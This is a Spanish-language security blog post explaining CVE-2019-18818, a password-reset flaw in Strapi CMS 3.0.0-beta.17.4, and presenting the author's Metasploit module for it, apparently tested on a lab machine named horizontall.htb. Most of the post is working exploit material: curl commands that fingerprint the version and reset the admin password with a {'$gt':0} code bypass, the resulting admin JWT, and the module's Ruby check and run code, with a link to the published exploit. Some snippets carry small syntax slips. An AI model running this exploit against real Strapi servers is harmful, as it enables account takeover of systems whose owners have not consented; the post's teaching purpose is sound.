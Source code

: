 ```yaml
---
title: "CVE-2019-18818 (Metasploit) + POC"
layout: single
excerpt: "Strapi CMS versión 3.0.0-beta.17.4 maneja mal el restablecimiento de contraseña y esto permite a un atacante hacerse con el control de una cuenta privilegiada, de manera que he desarrollado un módulo de exploit en Metasploit y enseño de manera práctica como explotar dicha vulnerabilidad."
header:
show_date: true
classes: wide
header:
  teaser: "https://user-images.githubusercontent.com/69093629/153302563-a3a8e679-3b9b-447e-b714-8d76e91cbd0a.png"
  teaser_home_page: true
  icon:
categories:
  - Vulnearabilities
tags:
  - CVE
  - Set Password
  - Metasploit
---
```


<p align="center">
<img src="https://user-images.githubusercontent.com/69093629/153302563-a3a8e679-3b9b-447e-b714-8d76e91cbd0a.png">
</p>

Hace relativamente poco comencé en la creación de módulos auxiliares y exploits para *Metasploit Framework* y me gustaría compartir mi experiencia en mi primer módulo auxiliar del CVE-2019-18818.

Antes de comenzar a explicar de que se compone el módulo, un breve resumen sobre que es *CVE-2019-18818*. Esta vulnerabilidad fue publicada en la [*NATIONAL VULNERABILITY DATABASE*](https://nvd.nist.gov/vuln/detail/CVE-2019-18818) (NVD) el 11 de julio de 2019, dicha falla maneja mal el restablecimiento de la contraseña en `packages/strapi-admin/controllers/Auth.js` y `packages/strapi-plugin-users-permissions/controllers/Auth.js` en Strapi 3.0.0-beta.17.4, por ende esto permite cambiar la contraseña de un usuario privilegiado y asimismo garantizar el acceso no autorizado al CMS, de ahi que fue catalogada como CRÍTICA por su gravedad y fácil explotación.

Por si no fuera poco, tiempo después, el 5 de diciembre de 2019 fue encontrado el CVE-2019-19609 en Strapi 3.0.0-beta.17.8, a diferencia del CVE-2019-18818, esta permitía la ejecución de código arbitrario por un usuario autenticado. 

A todo esto, usar la beta de Strapi CMS en versiones desactualizadas da oportunidad a un atacante a comprometerte. 

Ahora bien, como se explota?, pues bien, es muy fácil, enviaremos datos JSON al servidor a una ruta específica del CMS y ganaremos acceso como un usuario legítimo volcando un JSON Web Token.

Primeramente, es verificar si la versión que se está empleando en Strapi es vulnerable, es decir anteriores a la 3.0.0-beta.17.5, por ello podemos enviar datos JSON mediante una petición GET al servidor en '/admin/init' especificando a la cabecera `Content-Type` que estamos enviando datos en JSON, esto lo podemos hacer de la siguiente manera con `curl`.

```bash
┌──(root💀kali)-[/home/kali]
└─$ curl -X GET http://api-prod.horizontall.htb/admin/init -H 'Content-type: application/json' -s | jq                        
{                                                                                                                             
  "data": {                                                                                                                   
    "uuid": "a55da3bd-9693-4a08-9279-f9df57fd1817",                                                                           
    "currentEnvironment": "development",                                                                                      
    "autoReload": false,                                                                                                      
    "strapiVersion": "3.0.0-beta.17.4"                                                                                        
  }                                                                                                                           
} 
```
En el módulo auxiliar de Metasploit, implemente esta funcionalidad en la función `check`.

```ruby
def check
    res = send_request_raw({ 'uri' => '/admin/init' })
    version = JSON.parse(res.body) 

    if version["data"]["strapiVersion"] == '3.0.0-beta.17.4'
      return Exploit::CheckCode::Vulnerable
    else
      return Exploit::CheckCode::Safe
    end    
end
```

Hago uso de `send_request_raw` para enviar una petición GET, seguidamente parseo la data en JSON de la respuesta del servidor con `JSON.parse` y la guardo en la variable `version`, defino una condición, `if version["data"]["strapiVersion"] == '3.0.0-beta.17.4'`, extraigo strapiVersion de la variable versión que contiene la versión y hace una comparacion, si strapiVersion es igual a '3.0.0-beta.17.4', entonces el servidor es vulnerable, por lo cual devuelvo `return Exploit::CheckCode::Vulnerable`, de lo contrario retorno `return Exploit::CheckCode::Vulnerable`.

Hasta ahora esto ha sido para verificar que el servidor sea vulnerable, ahora vayamos con la explotación de la vulnerabilidad.

Enviaremos una petición POST a `/admin/auth/reset-password` y especificaremos los siguientes datos en JSON:

```json                                                                                           
{
  "code": {"$gt:0"}, # Bypass WAF
  "password": "Newpass123", # Nueva contraseña
  "passwordConfirmation": "Newpass123" # Confirmacion nueva contraseña
}
```
Lo podemos hacer con `curl` de esta manera:

```bash
┌──(root💀kali)-[/home/kali]
└─# curl -X POST -H 'Content-type: application/json' http://api-prod.horizontall.htb/admin/auth/reset-password -d '{"code": {"$gt":0},"password":"pas","passwordConfirmation":"pas"}' -s | jq
{
  "jwt": "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6MywiaXNBZG1pbiI6dHJ1ZSwiaWF0IjoxNjQ0NDQ0MjI0LCJleHAiOjE2NDcwMzYyMjR9.il6oFUjKXH7ke_uOVqM99quXU9qOyfKKY30ihgG21I4",                                                                                   
  "user": {
    "id": 3,
    "username": "admin",
    "email": "admin@horizontall.htb",
    "blocked": null
  }
}
```
> La respuesta nos muestra un JWT valido del usuario admin que puede ser usado mas tarde.

Este seria el codigo en el modulo de Metasploit.

```ruby
def run
    json_body = { 'code' => {'$gt' => 0},
      'password' => datastore['NEW_PASSWORD'],
      'passwordConfirmation' => datastore['NEW_PASSWORD'] }

    res = send_request_cgi({
      'method' => 'POST',
      'uri' => '/admin/auth/reset-password',
      'ctype' => 'application/json',
      'data' => JSON.generate(json_body)
    })

    print_status("Changing password...")
    json_format = JSON.parse(res.body)
    jwt = json_format['jwt']

    if res.code == 200
      print_good("Password changed successfully!")
      print_good("USER: admin")
      print_good("PASSWORD: #{datastore['NEW_PASSWORD']}")
      print_good("JWT: #{jwt}")
    else
      fail_with(Failure::NoAccess"Could not change admin user password")
    end
  end
```

Comienzo definiendo mi data JSON en formato Ruby concatenando los datos del usuario, la guardo en la variable `json_body` y envió una petición POST usando `send_request_cgi`, genero mi data JSON válida con `JSON.generate(json_body)` en la peticion, guardo la petición en la variable `res` y parseo la data de esta con `JSON.parse(res.body)`, la almaceno en `json_format` y después guardo el parámetro JWT que contiene el JSON Web Token del usuario admin en la variable `jwt = json_format['jwt']` y hago una comparación, `if res.code == 200`, es decir si la respuesta del código de estado de lado del servidor es 200 OK, quiere decir que la contraseña se cambió con éxito y te muestra la contraseña, el usuario y el JWT nuevos del usuario admin, de lo contrario muestro *Could not change admin user password*.

# POC

## Instalacion del exploit: https://www.exploit-db.com/exploits/50716

<p align="center">
<script id="asciicast-EXk92PvUUB0M1xZDXmTdyZV1v" src="https://asciinema.org/a/EXk92PvUUB0M1xZDXmTdyZV1v.js" async></script>
</p>

